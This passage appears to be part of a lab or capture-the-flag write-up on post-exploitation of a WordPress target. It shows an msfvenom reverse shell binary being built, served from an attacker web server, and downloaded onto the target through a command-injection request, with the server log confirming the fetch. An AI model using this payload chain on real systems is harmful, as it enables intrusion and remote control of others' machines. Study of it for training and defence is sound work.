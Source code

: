 # post exploitation
## reverse shell
> The simple `bash` reverse shell oneliner does not seem to work.  
{: .prompt-danger }

Lets use `msfvenom` to generate a reverse shell binary, upload it to the target and execute it.

Generate reverse shell binary
```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.186 LPORT=80 -f elf > abc
PG::Coder.new(hash) is deprecated. Please use keyword arguments instead! Called from /usr/share/metasploit-framework/vendor/bundle/ruby/3.1.0/gems/activerecord-7.0.4.3/lib/active_record/connection_adapters/postgresql_adapter.rb:980:in `new'
PG::Coder.new(hash) is deprecated. Please use keyword arguments instead! Called from /usr/share/metasploit-framework/vendor/bundle/ruby/3.1.0/gems/activerecord-7.0.4.3/lib/active_record/connection_adapters/postgresql_adapter.rb:980:in `new'
PG::Coder.new(hash) is deprecated. Please use keyword arguments instead! Called from /usr/share/metasploit-framework/vendor/bundle/ruby/3.1.0/gems/activerecord-7.0.4.3/lib/active_record/connection_adapters/postgresql_adapter.rb:980:in `new'
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

Start a web server on attacker machine to serve the binary
```bash
$ python3 -m http.server 80                                                         
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Upload the binary to the target
payload `wget 192.168.45.186/abc -O /tmp/shell`
```bash
GET /wordpress/?c=wget+192.168.45.186/abc+-O+/tmp/shell HTTP/1.1
Host: 192.168.235.50
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_e37610d84c63d90bb61a8f78587cb4b4=admin%7C1692123822%7Ca82dd7f4b146ca21c0c02cbfda541041; wp-settings-time-2=1691952180
Connection: close
```

Verify it got requested by the target
```bash
$ python3 -m http.server 80                                                         
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.235.50 - - [13/Aug/2023 20:54:00] "GET /abc HTTP/1.1" 200 -
```

